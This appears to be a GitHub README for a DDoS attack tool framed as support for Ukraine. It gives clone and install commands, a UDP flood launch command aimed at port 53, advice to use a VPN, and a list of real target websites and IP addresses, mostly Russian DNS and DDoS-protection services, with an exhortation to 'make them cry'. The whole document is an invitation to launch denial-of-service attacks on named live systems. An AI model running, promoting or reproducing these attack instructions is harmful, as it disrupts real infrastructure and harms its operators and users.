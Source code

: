 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






